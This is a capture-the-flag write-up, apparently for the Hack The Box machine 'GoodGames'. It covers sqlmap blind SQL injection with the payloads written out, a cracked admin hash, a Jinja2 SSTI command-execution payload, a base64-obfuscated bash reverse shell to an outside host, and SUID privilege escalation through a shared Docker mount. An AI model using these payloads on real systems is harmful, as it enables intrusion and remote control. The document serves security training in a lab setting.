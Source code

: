 # User
Nmap
```
└─$ nmap -sCV -p- 10.129.226.138                                                                                                                                                                                                    
Nmap scan report for 10.129.226.138 
Host is up (0.019s latency). 
Not shown: 65534 closed ports 
PORT   STATE SERVICE  VERSION 
80/tcp open  ssl/http Werkzeug/2.0.2 Python/3.9.2 
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2 
|_http-title: GoodGames | Community and Store 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 441.90 second
```
Time based blind sql injection in sign in page

![image](https://user-images.githubusercontent.com/87831546/142666137-ceea7690-cae8-4822-bc26-9b876198f1cf.png)

```log
$ sqlmap -u http://goodgames.htb/login --data="email=a%40a.a&password=a" -D main -T user -dump

[*] starting @ 13:00:46 /2021-11-20/

[13:00:47] [INFO] resuming back-end DBMS 'mysql' 
[13:00:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=a@a.a' AND (SELECT 6708 FROM (SELECT(SLEEP(5)))hpPZ) AND 'VYTZ'='VYTZ&password=a

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=a@a.a' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x7162627671,0x69676b6673706955474a69524d724968636c576a65614b6c704b454745665a564242466c55717a57,0x7171787671)-- -&password=a
---
[13:00:47] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[13:00:47] [INFO] fetching columns for table 'user' in database 'main'
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
[13:00:50] [INFO] fetching entries for table 'user' in database 'main'
[13:00:50] [INFO] recognized possible password hashes in column '`password`'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: main
Table: user
[1 entry]
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

Dump the users table and we find admin credentials
```
admin@goodgames.htb
2b22337f218b2d82dfc3b6f77e7cb8ec -> superadministrator
```

Crack the hash and logging into admin account and clicking on the settings feature we find subdomain:
```
internal-administration
```
![image](https://user-images.githubusercontent.com/87831546/142666394-11ee96c4-64db-474f-84a0-b04c1596f3c0.png)

Add to /etc/hosts

![image](https://user-images.githubusercontent.com/87831546/142666449-b32e99e2-1e05-436b-80a5-0687144c6b03.png)

Login with 
```
admin
superadministrator
```
![image](https://user-images.githubusercontent.com/87831546/142666482-c888bc72-307e-45ac-a17e-272420a7c995.png)

Flask application and SSTI in the Full Name field
![image](https://user-images.githubusercontent.com/87831546/142666543-8ccb3f45-0888-4244-a549-2cfcd97ec2a0.png)

Command execution through SSTI:
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}
```
Get reverse shell by base64 encoding bash reverse shell then piping to base64 decode and then piped to bash
```
bash -i >& /dev/tcp/10.10.14.42/4242 0>&1
```
```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Mi8xMjM0IDA+JjE= | base64 -d | bash').read() }}
```
```
HTB{7h4T_w45_Tr1cKy_1_D4r3_54y}
```

# Root
So scanning the docker host machine on 172.19.0.1 reveals it has ssh open
We can connect to that using the known username of `augustus` which is the name of the users home dir that the flag is in
Using the same password as before `superadministrator`
```
ssh augustus@172.19.0.1
```

There is a shared folder in both the docker container and in augustus
```
/home/augustus
```

Going back to the docker container we can copy /bin/sh over into the users home as we know that is shared with the host machine.
We can then use `chmod +s` on the container to set the suid bit allowing users that have access to the file to run it as root

Connecting to the host as the user we now have the suid binary to run which gives us a root shell
```
./sh
#
```
Then `cat /root/root.txt`.
```
HTB{M0un73d_F1l3_Sy57eM5_4r3_DaNg3R0uS}
```
